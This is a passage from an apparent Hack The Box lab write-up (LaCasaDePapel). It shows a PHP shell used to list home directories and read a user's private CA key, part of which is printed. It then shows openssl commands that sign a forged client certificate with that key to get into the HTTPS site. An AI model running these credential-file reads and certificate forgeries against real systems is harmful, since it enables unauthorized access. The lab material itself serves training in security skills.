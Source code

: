 ```php
     "tmp",
     "usr",
     "var",
   ]
```

The list of users can be get:

```php
scandir("/home")
=> [
     ".",
     "..",
     "berlin",
     "dali",
     "nairobi",
     "oslo",
     "professor",
   ]
```

Searching we can find a certificate:

```php
file_get_contents("/home/nairobi/ca.key")
=> """
   -----BEGIN PRIVATE KEY-----\n
   MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb\n
   7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/\n
. . . <SNIP> . . .
```

Now we must create a certificate. First export the certificate from the HTTPS web:

```console
$ openssl req -new -key client.key -out client.csr
$ openssl x509 -req -in client.csr -CA lacasadepapel_htb.crt -CAkey ca.key -set_serial 9001 -extensions client -days 9002 -outform PEM -out client.cer
$ openssl pkcs12 -export -inkey client.key -in client.cer -out client.p12
```

Import `client.pk12` to **Your Certificates** page and `lacasadepapel_htb.crt` to **Authorities**. Now reload the web:

![Untitled](/assets/img/hackthebox/labs/lacasadepapel/Untitled%202.png)
